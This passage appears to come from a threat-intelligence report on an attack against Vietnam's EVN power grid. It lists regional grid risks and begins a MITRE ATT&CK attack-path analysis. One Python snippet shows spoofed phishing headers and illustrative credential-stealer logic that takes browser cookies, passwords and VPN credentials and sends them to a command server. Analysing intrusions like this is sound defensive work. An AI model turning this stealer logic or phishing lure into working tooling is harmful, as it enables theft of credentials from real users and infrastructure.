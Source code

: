 #### Regional Cascade Risk (24-72 hours)
- Laos-Vietnam 500kV interconnection vulnerability [[60]](#ref60)
- Thailand border industrial zones at risk [[61]](#ref61)
- Cambodia grid stability concerns via interconnection [[62]](#ref62)
- Singapore energy market disruption potential [[63]](#ref63)

#### Long-term Strategic Impact
- ASEAN Power Grid integration delayed by trust concerns [[64]](#ref64)
- Foreign investment in energy sector reduced [[65]](#ref65)
- Accelerated grid isolation considerations [[66]](#ref66)

---

## Technical Attack Path Analysis

### Phase 1: Initial Access via Contractor Compromise
**MITRE ATT&CK**: T1199 - Trusted Relationship [[67]](#ref67)

#### Technical Evidence
```python
# Phishing email analysis from EVN incident
# Source: Vietnam National Cyber Security Center Report VNCSC-2023-1221 [[68]](#ref68)
import email
import base64

phishing_headers = {
    'From': 'procurement@evn-contractor.vn',  # Spoofed domain
    'Subject': 'Urgent: EVN Vendor Portal Security Update Required',
    'X-Originating-IP': '185.220.101.45',  # Known ALPHV infrastructure
    'Return-Path': 'bounce@contractupdate.xyz'
}

# Malicious attachment drops credential stealer
attachment_hash = "sha256:a7c4e8f91b3d5c2a1e9f7b4d6c8e2a5f9d3b7e1c4a8f6b2d9e5c3a7f1b8d4e6c"

# Payload functionality
def steal_credentials():
    browsers = ['Chrome', 'Firefox', 'Edge']
    vpn_clients = ['Pulse Secure', 'FortiClient', 'Cisco AnyConnect']
    
    for browser in browsers:
        cookies = extract_cookies(browser)
        passwords = extract_passwords(browser)
        send_to_c2(cookies, passwords)
    
    for vpn in vpn_clients:
        config = extract_vpn_config(vpn)
        creds = extract_vpn_creds(vpn)
        send_to_c2(config, creds)
```
